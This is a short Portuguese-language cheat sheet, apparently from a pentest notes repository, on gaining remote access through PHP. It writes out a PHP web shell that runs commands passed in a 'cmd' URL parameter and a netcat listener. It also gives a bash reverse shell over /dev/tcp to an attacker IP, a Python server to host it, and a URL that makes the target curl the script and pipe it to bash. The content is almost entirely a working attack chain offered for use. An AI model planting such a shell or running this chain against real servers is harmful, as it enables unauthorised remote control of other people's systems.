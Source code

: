 
## PHP
No PHP podemos executar comando no SO com o comando 
`<?php system()>`, desse jeito : 
```php
<?php system("COMMAND"); ?>
```

Também podemos criar assim : 
```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Como no exemplo acima ele está pegando o parâmetro `cmd` com o método ``GET`` , devemos especificar o comando assim : 
```web
https://host.com/shell.php?cmd=<COMMAND>
```

---

Devemos escolher uma porta para escutar, para recebermos o acesso a máquina, nesse caso a porta 1337 : 
```bash
nc -nvlp 1337
```

Criamos o arquivo ``shell.sh`` com o conteúdo : 
```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOU_IP_ADDRESS>/1337 0>&1
```

Iniciamos um servidor python na mesma pasta do `shell.sh` para servir esse arquivo : 
```bash
python3 -m http.server 8000
```

---

Agora fazemos com que o alvo baixe o nosso arquivo com o ``curl``.
```web
https://host.com/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh | bash
```

